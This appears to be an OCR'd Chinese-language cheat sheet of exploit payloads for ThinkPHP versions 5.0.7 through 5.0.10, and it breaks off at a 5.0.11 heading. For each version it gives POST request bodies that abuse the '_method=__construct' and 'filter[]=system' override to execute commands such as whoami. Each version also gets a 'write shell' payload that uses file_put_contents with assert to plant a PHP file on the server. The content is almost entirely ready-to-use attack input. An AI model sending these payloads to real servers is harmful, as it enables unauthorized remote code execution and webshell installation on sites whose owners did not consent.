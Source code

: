 ```
```
## 5.0.7
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.8
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.9
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.10
从5.0.10开始默认debug=false，debug无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
## 5.0.11